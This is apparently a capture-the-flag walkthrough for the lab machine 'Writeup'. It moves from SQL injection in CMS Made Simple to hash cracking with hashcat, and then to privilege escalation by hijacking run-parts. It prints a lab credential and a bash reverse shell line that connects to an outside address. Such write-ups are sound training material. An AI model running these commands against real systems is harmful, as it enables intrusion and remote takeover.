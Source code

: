 ## Info
### Credential
 User | Password | Service | Note
------|----------|---------|------
jkr   |raykayjay9|         |
       
### HTTP
**`/writeup`**
- `/modules` shows the installed modules
- `/admin` shows the login prompt
- `/index.php?page=` may be SQL injectable
- `/uploads` exist, but has no content

## Path
### User
1. Found `/writeup` in `/robots.txt`.
2. In the html of `/writeup/index.php?page=ypuffy`, it shows the CMS is `CMS Made Simple`.
3. Found `/writeup/admin` has the login prompt.
4. Found `/writeup/index.php?page=2` is `/writeup/index.php?page=ypuffy`, so may be SQL Injectable.
5. Use `46635.py` from `searchsploit` to dump the credential of the user `jkr`, then crack it with `hashcat`.
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
$ hashcat --force -m 20 --username hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
jkr:raykayjay9
```
6. The credential obtained can use to login via SSH and get the user flag.
### Root
1. Found `/usr/local/bin` is writable for group `staff`, and the user is in the group. So we can hijack binaries.
2. Use `pspy` to find every time user login, `/usr/bin/env run-parts` execute, so hijack it.
```
$ cat << EOF > /usr/local/bin/run-parts
bash -c "bash -i >& /dev/tcp/10.10.16.3/13337 0>&1"
EOF
$ chmod +x /usr/local/bin/run-parts
```
3. Then login via SSH from another pane, and get the root reverse shell.
4. Get the root flag.

